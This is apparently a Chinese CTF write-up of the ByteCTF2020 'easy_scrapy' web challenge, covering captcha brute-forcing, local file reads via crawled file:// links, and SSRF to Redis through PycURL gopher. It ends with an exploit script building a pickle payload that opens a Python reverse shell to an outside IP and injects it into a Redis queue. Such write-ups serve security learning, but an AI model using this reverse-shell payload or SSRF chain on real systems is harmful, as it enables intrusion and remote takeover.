 ```yaml
---
title: ByteCTF2020复现
date: 2020-10-28
image: https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210228105539.jpeg
description: 
categories: 
- ctf_writeup
tags:
- SSRF
- Redis
- python反序列化
---
```

这次ByteCTF2020的web题目非常顶，第一天比赛快结束的时候全场web才有了第一个解，后来解人数最多的XSS也就不过十个解，可惜一直在看爬虫的题，最后还是没做出。

------

### easy_scrapy

考点：MD5爆破、SSRF

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120181318.png)

功能是添加一个http://或者https://开头的URL，并且要求输入验证码，可以利用以下脚本来爆破：

```
import hashlib
 
for i in range(99999999):
    if hashlib.md5(str(i).encode('UTF-8')).hexdigest()[:6] == '2c97b3':
        print(i)
        break
```

十几秒能出结果，之后可以BP重放数据包来快速的添加。

添加成功之后可以在MyUrlList里面看到添加记录，点进去可以看到爬取到的东西。

监听端口接收到请求：

```
GET / HTTP/1.1
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en
User-Agent: scrapy_redis
Accept-Encoding: gzip, deflate
```

发现是scrapy_redis，初步猜测是SSRF打redis。

既然他是爬虫，那么遇到类似于<a>这种标签的话，他很有可能就会去请求，（后来放了HINT，叫去读这个页面的源码）尝试爬以下这道题的公网IP，发现他会把/list的源码一并爬下来，那么我们可以起一个页面来指向`file:///etc/passwd`

比赛的时候我用的是302重定向好像不行（哭了），其实这里他遇到一个<a>标签就会去请求：

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120181325.png)

我们可以发现他请求到了我们想要的URL：

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120181330.png)

把<a>标签的href改成file协议果然可以造成任意文件读：

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120181342.png)

这样的话我们可以逐一的读取他爬虫的源码，但是在这之前我们要先知道爬虫工作的绝对路径，可以通过读`/proc/self/environ`，得到绝对路径PWD=/code，这个知识点在本站[[SWPU2019\]Web3](http://wh1sper.com/buuoj刷题记录3/)也提到过。

在[官方文档](https://scrapy-chs.readthedocs.io/zh_CN/0.24/intro/tutorial.html)中找到了这个爬虫框架的结构：

```
tutorial/
    scrapy.cfg
    tutorial/
        __init__.py
        items.py
        pipelines.py
        settings.py
        spiders/
            __init__.py
            ...
```

我们尝试去读取这些文件；

scrapy.cfg:

```
# Automatically created by: scrapy startproject
#
# For more information about the [deploy] section see:
# https://scrapyd.readthedocs.io/en/latest/deploy.html
 
[settings]
default = bytectf.settings
 
[deploy]
#url = http://localhost:6800/
project = bytectf
```

对照着文档我们可以看到项目文件夹的名称是bytectf，不过在bytectf/spider文件夹下的爬虫名称却似乎是自定义的名字。

读取`/proc/self/cmdline`，这个文件包含进程的完整命令行信息，我们可以根据他来得知正在运行的爬虫的文件名称。

```
/usr/local/bin/python /usr/local/bin/scrapy crawl byte
```

得知爬虫名字叫做byte。

读取之，得到[源码](https://github.com/Anthem-whisper/CTFWEB_sourcecode/raw/main/ByteCTF2020/bytectf_easy_scrapy.zip)，结构大概如下：

```
/code/
  requirement.txt
  scrapy.cfg
  bytectf/
    __init__.py 
    items.py 
    pipelines.py 
    settings.py 
    spiders/ 
      __init__.py 
      byte.py
```

由源码可知：

```
172.20.0.8:6379为内网Redis
172.20.0.7:27017为mongodb
```

打一通之后没有任何回显，甚至不能确定这两个主机是否存活。

根据hint，得到源码之后我们可以本地起一个环境来调试，同时，从[这篇文章](https://blog.csdn.net/zwq912318834/article/details/78854571)里面我们得知redis-scrapy的运作方式:

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120181356.png)



作为一个分布式爬虫，是需要有一个Master端（核心服务器）的，在Master端，会搭建一个Redis数据库，用来存储start_urls、request、items。Master的职责是负责url指纹判重，Request的分配，以及数据的存储（一般在Master端会安装一个mongodb用来存储redis中的items）。出了Master之外，还有一个角色就是slaver（爬虫程序执行端），它主要负责执行爬虫程序爬取数据，并将爬取过程中新的Request提交到Master的redis数据库中。



这和我们之前的猜想SSRF+Redis是越来越接近的。

但是用用爬虫去打Redis是打不到东西的，我们可以在源码里面看到scrapy.Request，他是不支持gopher和dict协议的。

哪里还有SSRF的点呢？

当然是在点击爬取链接的时候：

```
?url=https://baidu.com
```

![img](https://raw.githubusercontent.com/Anthem-whisper/imgbed/master/img/20210120181407.png)

监听到请求的UA是`PycURL`，这个东西和curl差不多，是支持gopher等协议的，我们就可以利用这里去打redis。

不过遗憾的是，这里的是ssrf仍然是没有回显，难以判断我们的payload是否起作用。

此题最难发现的点我感觉就是这个pickle反序列化，此时有两种发现pickle反序列化的方法：

1.本地起一个scrapy_redis环境，去看redis里面的东西，发现序列化数据（操作有难度，也许会遇到很多问题）

2.爬虫第4行使用了scrapy_redis库，去看这个的源码，可以发现它在存取数据的过程中使用了pickle的序列化方式，并且还可以发现，它会将request对象存入`爬虫名:requests`这样的有序列表中。

既然有序列化那必然存在反序列化，利用反序列化来反弹shell。

`byte:requests`有序列表是zset的，我们gopher打的时候需要zset。

贴一个官方exp：

```
import pickle
import os
from urllib.parse import quote
class exp(object):
    def __reduce__(self):
        s = """python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("119.45.184.10",7777));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'"""
        return (os.system, (s,))
test = str(pickle.dumps(exp()))
poc = test.replace("\n",'\\n').replace("\"","\\\"")[2:-1]
poc ='gopher://172.20.0.7:6379/_'+quote('ZADD byte:requests 0 "')+quote(poc)+quote('"')
print(poc)
```

时间显得有点急，这道题就草草的复现了一遍，以后时间再本地深究